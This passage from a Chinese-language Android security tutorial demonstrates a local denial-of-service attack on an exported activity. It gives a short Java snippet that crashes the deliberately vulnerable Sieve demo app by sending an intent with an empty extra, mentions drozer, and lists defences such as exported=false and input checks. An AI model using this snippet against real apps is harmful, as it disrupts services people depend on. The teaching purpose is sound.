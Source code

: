 ```

```

#### [](#（2）漏洞复现)（2）漏洞复现

我们查看一个目标应用的 AndroidManifest.xml 文件：

我们编写一个简易的 APP 程序，对目标程序进行拒绝服务攻击

```
Intent intent = new Intent();
ComponentName comp = new ComponentName("com.mwr.example.sieve","com.mwr.example.sieve.MainLoginActivity");
intent.putExtra("", "");
intent.setComponent(comp);
startActivity(intent);

```

这里我们传入一个空字符，使其产生错误

 

当然我们还可以使用我们的神器 drozer 来进行攻击

 

![](https://bbs.pediy.com/upload/attach/202109/905443_WBVFP3MYSSQPAW3.png)

 

远程拒绝服务攻击：

```
参考网址： http://rui0.cn/archives/30

```

还有其他类型的拒绝服务攻击，大家可以参考博客：

```
参考网址https://blog.csdn.net/myboyer/article/details/44940811utm_term=Activity%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1&utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2~all~sobaiduweb~default-1-44940811&spm=3001.4430

```

#### [](#（3）安全防护)（3）安全防护

```
安全防护：
    （1）空指针异常、类型转换异常、数组越界访问异常、类未定义异常、其它异常
    （2）谨慎处理接收的intent以及其携带的信息，对接收到的任何数据做try/catch处理，以及对不符合预期数据做异常处理
总结：
1.不需要被外部调用的activity设置android:exported="false"；
 
2.若需要外部调用，需自定义signature或者signatureOrSystem级别的权限；
 
3.注册的组件请严格校验输入参数，注意空值判定和类型转换判断

```
